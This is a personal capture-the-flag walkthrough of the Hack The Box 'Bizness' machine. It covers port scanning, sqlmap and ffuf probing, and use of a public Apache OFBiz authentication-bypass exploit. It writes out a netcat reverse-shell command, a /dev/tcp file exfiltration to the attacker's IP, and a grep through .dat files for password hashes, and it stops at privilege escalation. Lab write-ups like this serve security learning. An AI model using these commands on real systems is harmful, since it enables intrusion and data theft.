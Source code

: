 # Enumeration

Starting with nmap
`sudo nmap -Pn -sV -sC 10.10.11.252`

We see that ports 22, 80, and 443 are open.

22 is for ssh as usual

80 seems to be some sort of web server

And 443 seems to be the same.

They both redirect to https://bizness.htb/

Adding it to /etc/hosts:
`echo '10.10.11.252 bizness.htb' | sudo tee -a /etc/hosts`

Opening th page it mentions an invalid cert.
Seems to be related to the fact it doesn't provide ownership info so it doesn't matter probably.

This is literally a one page site. And the only two things I see are interactable are the contact form and the subscribe button. 

This feels like input sanatization. Maybe SQL Injection?

Literally nothing but the subscribe button on the page does anything. 

It does do validation to make sure its an email. But seems to be client side. Maybe I can modify the input and try here?

Wait, it looks like contact form actually has a disabled attribute. But I can change that and run it. This may actually be it.

It sends a post with the data.

Maybe I can run this through sqlmap.

```
sqlmap 'https://bizness.htb/contactform/contactform.php' \
  -H 'accept: */*' \
  -H 'accept-language: en-US,en;q=0.9' \
  -H 'content-type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'cookie: JSESSIONID=FA2E079C98C543CB0284B8EEFBF7D52F.jvm1' \
  -H 'origin: https://bizness.htb' \
  -H 'priority: u=1, i' \
  -H 'referer: https://bizness.htb/' \
  -H 'sec-ch-ua: "Chromium";v="123", "Not:A-Brand";v="8"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "macOS"' \
  -H 'sec-fetch-dest: empty' \
  -H 'sec-fetch-mode: cors' \
  -H 'sec-fetch-site: same-origin' \
  -H 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36' \
  -H 'x-requested-with: XMLHttpRequest' \
  --data-raw 'name=adaaada&email=test%40email.com&subject=adad&message=test' \
  --level=5 --risk=3
```

Maybe I can run this through the Zap webpage analyzer...

Interesting when I ran an active scan on the site it says theres a sqlite injection. SQLMap is still running. It might find it for me. Guess my instinct was correct.

The suggest payload is something like `case randomblob(1000000) when not null then 1 else 1 end` which seems to be a time based attack of some kind. I believe I can modify the sqlmap search to test for time based injections.

--technique=T says only look for timebased blind.

Killing sqlmap and trying that. 

SQLMap didn't find anything. This appears to be a false positive. 

There are other possible injections. Gonna run site map discovery, then try some of those.

First I am going to run a directory fuzz:
`ffuf -w ../../HackTheBox/Modules/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt:FUZZ -u https://bizness.htb/FUZZ -fs 169`

Doesn't seem there are any other directories, and all calls redirect to the original page. I see in the linked javascript file for the contact form it is supposed to call `contactform/contactform.php`. Which means contactform should be a directory, but that also redirects to the main page. But this does give a hint that maybe the back end server is php. So I am going to fuzz for that next.

`ffuf -w ../../HackTheBox/Modules/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt:FUZZ -u https://bizness.htb/FUZZ.php -fs 0 -ic` (-ic is for ignore copywrite)

This didn't find anything. After looking at the forums a bit I see that this is related to some CVE. When I look at the page I see that Apache OFBiz is used. A quick google search reveals (this)[https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass/tree/master]. 

This seems to work. Now I need to get a reverse shell going.

Looking at (this webpage)[https://medium.com/@cuncis/reverse-shell-cheat-sheet-creating-and-using-reverse-shells-for-penetration-testing-and-security-d25a6923362e] I see a bunch of reverse shells to try.

So I started a netcat listener on 2222 with `nc -lnvp 2222`.
Then I ran `python3 exploit.py --url https://bizness.htb --cmd "nc -e /bin/sh 10.10.14.147 2222"` and it started a reverse shell.

Then something I ran something I learned on the Codify box to get a prettier output.

Now I have a foothold.

For a pretty shell.
```
script /dev/null -qc /bin/bash
stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

# Foothold

Running `cat /etc/passwd` I don't see any suspicous users.

Running `find -name '*user.txt' 2>/dev/null` finds the user flags

So running `cat /home/ofbiz/user.txt` gets the first flag.

Now how to privesc.

Running `find -name '*.db' 2>/dev/null` shows a bunch of dbs but none of them seem to be what I want.

I found one I wanted to try and read locally.

To do this I start a netcat locally with `nc -lvnp 4444 > listchanges.db`

Then I run `cat /var/lib/apt/listchanges.db > /dev/tcp/10.10.14.147/4444`

I found (this page)[https://stackoverflow.com/questions/37644/examining-berkeley-db-files-from-the-cli] for working Berkley DB.

This was a red herring.

Discussion posts seem to indicate the trick here is the dat files.

I can find all dat files with `find / -name '*.dat' 2>/dev/null`.

There are a ton. So maybe I can use `find / -name '*.dat' 2>/dev/null | xargs grep -i 'Password'` to narrow it down.

It matches a few binary files.

Turns out c54d0.dat contains the current password in Sha form.

`cat /opt/ofbiz/runtime/data/derby/ofbiz/seg0/c54d0.dat`

So what I gather from the password is we have to create our own hashing function match it. I did find a matching function online for this. I could be offbase, but rooting this box did not feel like it fit into the easy category.
